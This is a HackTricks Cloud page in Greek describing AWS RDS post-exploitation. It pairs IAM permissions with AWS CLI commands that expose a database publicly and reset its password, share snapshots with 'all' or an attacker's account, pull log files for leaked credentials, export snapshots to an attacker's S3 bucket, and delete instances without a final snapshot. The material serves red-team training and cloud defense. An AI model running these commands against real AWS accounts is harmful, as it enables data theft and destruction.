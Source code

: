 # AWS - RDS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Εάν ο επιτιθέμενος έχει αρκετές άδειες, θα μπορούσε να κάνει μια **DB δημόσια προσβάσιμη** δημιουργώντας ένα στιγμιότυπο της DB και στη συνέχεια μια δημόσια προσβάσιμη DB από το στιγμιότυπο.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Ένας επιτιθέμενος με αυτές τις άδειες θα μπορούσε **να δημιουργήσει ένα στιγμιότυπο μιας βάσης δεδομένων** και να το κάνει **δημόσια** **διαθέσιμο**. Στη συνέχεια, θα μπορούσε απλά να δημιουργήσει στον δικό του λογαριασμό μια βάση δεδομένων από αυτό το στιγμιότυπο.

Αν ο επιτιθέμενος **δεν έχει την `rds:CreateDBSnapshot`**, θα μπορούσε ακόμα να κάνει **άλλα** δημιουργημένα στιγμιότυπα **δημόσια**.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

Ένας επιτιθέμενος με την άδεια `rds:DownloadDBLogFilePortion` μπορεί να **κατεβάσει τμήματα των αρχείων καταγραφής μιας RDS παρουσίας**. Εάν ευαίσθητα δεδομένα ή διαπιστευτήρια πρόσβασης καταγραφούν κατά λάθος, ο επιτιθέμενος θα μπορούσε ενδεχομένως να χρησιμοποιήσει αυτές τις πληροφορίες για να κλιμακώσει τα προνόμιά του ή να εκτελέσει μη εξουσιοδοτημένες ενέργειες.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητες πληροφορίες ή μη εξουσιοδοτημένες ενέργειες χρησιμοποιώντας διαρρεύσαντα διαπιστευτήρια.

### `rds:DeleteDBInstance`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **DoS υπάρχουσες RDS περιπτώσεις**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Πιθανές επιπτώσεις**: Διαγραφή υπαρχόντων RDS instances και πιθανή απώλεια δεδομένων.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Δοκιμή
{% endhint %}

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να **εξάγει ένα στιγμιότυπο RDS instance σε ένα S3 bucket**. Εάν ο επιτιθέμενος έχει έλεγχο πάνω στο προορισμένο S3 bucket, μπορεί να έχει πρόσβαση σε ευαίσθητα δεδομένα μέσα στο εξαγόμενο στιγμιότυπο.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Πιθανές επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα στο εξαγόμενο στιγμιότυπο.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
